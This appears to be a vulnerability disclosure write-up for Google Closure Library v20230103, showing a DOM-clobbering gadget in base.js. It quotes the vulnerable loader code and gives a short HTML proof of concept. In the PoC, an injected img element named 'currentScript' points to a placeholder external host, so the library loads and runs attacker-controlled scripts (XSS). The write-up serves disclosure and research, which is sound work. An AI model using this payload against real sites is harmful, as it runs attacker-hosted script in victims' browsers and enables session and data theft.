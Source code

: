 ## Google Closure Library

### Meta

+ Library: Google Closure
+ Stars: 4.9K
+ Version: v20230103
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk
+ TheThing: None


### Library

URL: 
+ `https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.min.js`


### Vulnerable Code Snippet

```javascript
// If we have a currentScript available, use it exclusively.
var currentScript = doc.currentScript;
if (currentScript) {
  var scripts = [currentScript];
} else {
  var scripts = doc.getElementsByTagName('SCRIPT');
}
// Search backwards since the current script is in almost all cases the one
// that has base.js.
for (var i = scripts.length - 1; i >= 0; --i) {
  var script = /** @type {!HTMLScriptElement} */ (scripts[i]);
  var src = script.src;
  var qmark = src.lastIndexOf('?');
  var l = qmark == -1 ? src.length : qmark;
  if (src.slice(l - 7, l) == 'base.js') {
    goog.basePath = src.slice(0, l - 7);
    return;
  }
}
```
```javascript
goog.DebugLoader_.prototype.loadClosureDeps = function() {
// Circumvent addDependency, which would try to transpile deps.js if
// transpile is set to always.
var relPath = 'deps.js';
this.depsToLoad_.push(this.factory_.createDependency(
    goog.normalizePath_(goog.basePath + relPath), relPath, [], [], {}));
this.loadDeps_();
};
```

which eventually gets loaded...

## PoC

The library canot be compiled for this to work.

### PoC #1
```html
<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>

<script src=https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.js></script>
```
